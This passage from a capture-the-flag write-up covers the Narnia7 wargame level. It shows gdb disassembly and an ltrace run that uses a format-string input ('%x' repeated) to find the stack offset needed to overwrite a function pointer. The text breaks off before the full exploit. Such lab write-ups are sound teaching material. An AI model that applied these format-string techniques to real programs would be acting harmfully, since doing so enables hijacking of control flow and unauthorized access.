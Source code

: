 ```sourceCode
   0x0804863a <+109>:   movl   $0x80487fd,(%esp)
   0x08048641 <+116>:   call   0x8048420 <printf@plt>
   0x08048646 <+121>:   movl   $0x8048818,(%esp)
   0x0804864d <+128>:   call   0x8048450 <puts@plt>
   0x08048652 <+133>:   movl   $0x2,(%esp)
   0x08048659 <+140>:   call   0x8048440 <sleep@plt>
   0x0804865e <+145>:   movl   $0x80486e0,-0x8c(%ebp)
   0x08048668 <+155>:   mov    0x8(%ebp),%eax
   0x0804866b <+158>:   mov    %eax,0x8(%esp)
   0x0804866f <+162>:   movl   $0x80,0x4(%esp)
   0x08048677 <+170>:   lea    -0x88(%ebp),%eax
   0x0804867d <+176>:   mov    %eax,(%esp)
   0x08048680 <+179>:   call   0x80484c0 <snprintf@plt>
   0x08048685 <+184>:   mov    -0x8c(%ebp),%eax
   0x0804868b <+190>:   call   *%eax
   0x0804868d <+192>:   leave
   0x0804868e <+193>:   ret
End of assembler dump.
(gdb) break *0x08048685
```

So disassmble the `vuln` function and set a break point just before the call of the function pointer. In the process of this challenge I learned of a nice way to determine the number of `%x` you need. Using `ltrace` it's possible to increment the number of `%x` 's until you see your string in the output again. I'll paste only the correcy output here

```sourceCode
narnia7@melinda:/narnia$ ltrace ./narnia7 `python -c "print 'aaaabbbb' + '%x'*7"`
__libc_start_main(0x804868f, 2, 0xffffd774, 0x8048740 <unfinished ...>
memset(0xffffd630, '\0', 128)                                = 0xffffd630
printf("goodfunction() = %p\n", 0x80486e0goodfunction() = 0x80486e0
)                   = 27
printf("hackedfunction() = %p\n\n", 0x8048706hackedfunction() = 0x8048706

)               = 30
printf("before : ptrf() = %p (%p)\n", 0x80486e0, 0xffffd62cbefore : ptrf() = 0x80486e0 (0xffffd62c)
) = 41
puts("I guess you want to come to the "...I guess you want to come to the hackedfunction...
)                  = 50
sleep(2)                                                     = 0
snprintf("aaaabbbb8048238ffffd688f7ffda940"..., 128, "aaaabbbb%x%x%x%x%x%x%x", 0x8048238, 0xffffd688, 0xf7ffda94, 0, 0x80486e0, 0x61616161, 0x62626262) = 55
puts("Welcome to the goodfunction, but"...Welcome to the goodfunction, but i said the Hackedfunction..
)                  = 61
fflush(0xf7fcaac0)                                           = 0
exit(0 <no return ...>
+++ exited (status 0) +++
```

You can see the _aaaa_ and _bbbb_ at line 14. So we have 7 `%x` to get the second value.

Let's take a look at the stack with that input
